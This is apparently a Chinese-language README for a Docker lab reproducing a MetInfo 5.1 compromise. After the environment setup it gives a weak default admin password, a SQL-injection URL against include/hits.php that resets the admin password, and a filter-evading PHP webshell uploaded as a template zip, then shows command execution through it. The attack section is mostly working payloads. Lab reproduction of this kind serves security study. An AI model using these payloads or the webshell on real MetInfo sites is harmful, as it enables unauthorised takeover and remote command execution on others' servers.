



## 启动环境

```
docker-compose build
docker-compose up -d
```
或者是从hub下载
```
doker pull s1r1u5/php-fpm_meinfo_5_1:5.6
s1r1u5/mysql_metinfo_5_1:5.7
```

## 后台登录
通过弱口令admin:123456进入http://127.0.0.1:8002/admin/login/login.php 后台，
或者是通过http://127.0.0.1:8002/include/hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23 将密码重置为1


## 上传木马
Metinfo的后台可以通过上传模版的方式获得webshell,在界面风格->模版风格->添加新模板处



但是后台对于一些危险的函数比如eval,asssert,system进行了过滤，所以需要一个特殊的木马
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, $e);
?>
写到php文件里打包成zip，通过界面风格->添加新模版
然后通过访问http://10.0.0.9:8082/templates/trojan.php?e=assert post pass=system("ls");即可执行命令



